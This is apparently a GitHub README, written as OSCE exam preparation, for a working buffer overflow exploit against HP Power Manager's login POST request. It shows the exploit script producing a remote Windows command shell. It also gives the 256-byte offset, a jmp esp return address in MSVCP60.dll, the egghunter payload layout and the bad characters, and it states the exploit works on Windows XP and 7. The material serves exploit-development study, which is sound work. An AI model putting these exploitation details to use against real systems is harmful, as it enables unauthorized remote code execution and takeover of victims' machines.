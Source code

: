 # HP-Power-Manager

    dev@ubuntu:~# python HPPowerManager.py 192.168.126.209
    [+] Trying to exploit 192.168.126.209
    [+] Sending payload
    [+] Trying to connect to target
    [+] Please wait to thirty seconds...

    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\WINDOWS\system32>

An overflow in the Login of the post request  

    HtmlOnly=true&Login=admin{}&Password=admin&loginButton=Submit+Login

Sending 256 bytes of data will trigger this overflow. 
Was just studying the exploit originally created by ryujin , which you can find here: https://www.exploit-db.com/exploits/10099/  
Have to prep for that OSCE Exam yo!

There was also more bytes that could crash the service which leads to an SEH overflow, however, all the addresses had a nullbyte in them.   
Interestingly, used the nullbyte to help me find the amount of this crash as so:

    crash = "A" * 256
    crash += pack('<L', 0x7608BCCF)
    crash += "B" * 20
    crash += egghunter
    crash += '\x00'

Without the null, I wasn't able to hit my breakpoint after 256 bytes

Just used the same address as ryujin did: 

    Message=  0x7608bccf : jmp esp |  {PAGE_EXECUTE_READ} [MSVCP60.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v6.02.3104.0 (C:\Program Files\HP\Power Manager\MSVCP60.dll)
    
There were no bad characters with the exception of '\x00'

Useful Notes:  
256 bytes to crash the app  
0x7608bccf : jmp esp in MSVCP60.dll  
egghunter : haha  
badchars : \x00  

Tested and working on Windows XP, and Windows 7
